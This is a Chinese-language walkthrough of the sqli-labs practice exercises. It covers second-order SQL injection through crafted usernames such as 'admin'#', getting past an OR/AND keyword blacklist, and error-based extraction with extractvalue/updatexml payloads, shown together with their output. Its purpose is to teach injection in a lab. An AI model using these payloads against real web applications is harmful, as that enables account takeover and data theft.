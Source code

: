 Description: POST / Second Oder Injections *Real treat* / Stored injections

> A second-order code injection attack is the process where malicious code is injected into a web-based application and not immediately executed but is stored by the application to be retrieved, rendered and executed by the victim later.

![](/assets/images/move/1558242073852-137c7b07-4f9a-4c46-95bf-258222378e00.png)

注册 `admin'#`/`admin'-- `账户，更新密码时构成:

```sql
UPDATE users SET passwd="New_Pass" WHERE username='admin'# ' AND password=''
```

从而更新`admin`的密码。


## Less 25

Description: GET / Error based / All your OR & AND belong to us / string single quote

```php
function blacklist($id) {
	$id= preg_replace('/or/i',"", $id);  //strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);  //Strip out AND (non case sensitive)
	return $id;
}
```

此关卡过滤了`and`、`or`关键字，常见的绕过方法为:

- 大小写绕过(Or/oR/OR)
- 编码绕过(hex/urlencode)
- 添加注释(/or/)
- 符号替换(&&/||)

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

尝试`xpath`函数报错注入:

```sql
# or -> ||
?id=1'||extractvalue(1,concat(0x7e,database()))--+
# XPATH syntax error: '~security'
'||updatexml(1,concat(0x7e,(select group_concat(table_name) \
from infoorrmation_schema.TABLES \ 
where TABLE_SCHEMA=database()),0x7e),1)--+
# XPATH syntax error: '~emails,referers,uagents,users~'
```

## Less 25a

Description: GET / Blind based / All  your OR & AND belong to us / Intiger based

在`Less 25`的基础上改成了bool类型的的盲注，且作为数字类型不用考虑闭合。
